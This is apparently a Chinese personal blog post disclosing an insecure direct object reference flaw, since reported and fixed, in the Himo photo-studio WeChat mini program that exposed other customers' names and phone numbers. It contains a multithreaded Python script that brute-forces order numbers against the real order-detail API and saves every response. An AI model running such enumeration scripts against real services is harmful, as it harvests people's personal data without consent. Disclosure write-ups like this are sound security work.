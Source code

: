 ```yaml
---
title: "Himo Mini Program Security Issues"
date: 2023-05-29T00:31:40+08:00
draft: false
tags: [Information Security, Himo]
---
```


> 因为预约了 6 月头在香港的 F1 签证，所以需要准备一张 **签证照**，在家这边的小城市，也没什么选择，没有 **天真蓝**，最好的就是 **海马体** 了。海马体生意还挺好，当天都约不到，只能约到 5 月 14 日星期天

在 2023 年 5 月 16 日我已经向海马体的技术团队提交了 **可能存在的安全问题**。~~直到今天（2023 年 5 月 29 日），我没有收到海马体技术团队的任何回信，我决定在我的个人博客公开。~~ 2023 年 5 月 31 日我收到了海马体技术团队的邮件，已经修复了该问题。

我在拍完照之后，现场等待了一会，大概也就不到半个小时，小姐姐就基本上修好了，让我确认一下是否有需要修改的地方，没有的话就开始打印了。打印完之后，她告诉我电子版随时可以在 **海马体小程序** 随时下载。这一点我觉得非常方便。

晚上在家的时候，突然想到海马体小程序的这回事，我在想这些个人的照片应该是存储在 **OSS** 上的，但是我在想会不会有可能是订单号+编号这样子的文件名来存储的，简单说就是这个图片的链接是有规律的。如果真的是这样的话，我就可以轻松拿到所有用户的照片。

我在 iPhone 上开启了抓包，结果发现所有的照片的外链确实是固定的，只不过文件名是随机的一串字符串，似乎没有任何规律，应该就是完全随机的。然而有一个 API 会返回这个用户所有的照片的文件名，这个 API 传递的参数似乎没有类似于 **userID** 这类的参数，也就是说完全按照 **Cookie** 来判断哪位用户的。到这里，想拿到别的用户的照片外链的计划算是泡汤了。

我又想到因为每一次的照片肯定是和订单绑定的，也就是说一个 **签证照** 订单，理论上应该就固定的只有 4 张图。我又仔细地看了一下订单返回的参数，比较有价值的就是用户名、手机号这些，别的都是预约的门店、门店地址、门店联系电话、订单价格之类的一些东西。但是有一个意外的惊喜，我发现订单详情的 API 在 GET 请求的时候携带了 **orderNo** 参数，我赶紧使用 API 测试工具，发起了请求，把 **orderNo** 改一个数字，API 返回了 “订单不存在”。心里窃喜，竟然返回的是订单不存在，而不是无权限，说明我的 **Cookie** 应该可以查看别人的订单信息，我可以拿到任何注册 **海马体小程序** 用户的 **联系方式**。

我的订单的 **orderNo** 是 **T2023051413359999**，以首字母 T 开头，前 8 位是当天的日期，后面的 8 个纯数字应该是随机的，但是这难不倒我，手搓一个 **Python** 脚本，从 **00000000** 穷举到 **99999999** 不就完事了，在多线程的帮助下，简直是小菜一碟。

```python
# 这是示例代码，不能直接运行

import threading
import httpx

headers = {
	"app-key": "himo-wx-mini-program",
	"content-type": "application/json",
	"X-Stream-Id": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
	"User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/8.0.37(0x18002528) NetType/WIFI Language/en",
	"Referer": "https://servicewechat.com/xxxxx/456/page-frame.html"
}

semaphore = threading.Semaphore(10)

def getOrderDetails(orderId):
	try:
		with semaphore:
			url = f"https://api-gateway.hzmantu.com/appointment_platform/order/order/order_detail?orderNo=T20230515{orderId}"
			resp = httpx.get(url=url, headers=headers)
			if resp.status_code == 200:
				with open("result.json", "a") as f:
					f.write(resp.text)
				print(resp.text)
	finally:
		semaphore.__exit__(None, None, None)
			
threads = []
for orderId in range(10013132, 99999999):
	thread = threading.Thread(target=getOrderDetails, args=(orderId,))
	thread.start()
	threads.append(thread)
	
for thread in threads:
	thread.join()
```

很快，Python 的程序跑出了结果，验证了我的猜想。来自 **武汉** 的一位幸运网友。（**为了保护他人隐私，已将关键信息打码**）

![202305295XA9GS](https://static.nisekoo.com/blog/202305295XA9GS.png)

我在 5 月 15 日凌晨发了一条朋友圈和微博，在微博艾特了 **缦图摄影** 和 **海马体照相馆**。很荣幸，在微博私信和我的邮箱都有工作人员联系我，下午醒来的时候我及时地回复了邮件，很遗憾的是过去了接近 2 周的时间，我没有收到任何回信，我不知道他们是修复了这个问题，还是说直接忽略了。之后我也没有再去验证。

![20230529fzK3kq](https://static.nisekoo.com/blog/20230529fzK3kq.png)

其实我写这篇博客，只是想分享这一段有趣的小研究，也算是为海马体做出一点点贡献。**海马体小程序** 其实只是一个很好的例子，其实他们并不是一家小公司，而是一家在中国大陆范围内规模挺大的公司。除了海马体，在过去的时间里我还有研究过很多类似的小程序，很遗憾，大部分小程序都没有在 **用户个人信息** 做到很好保护。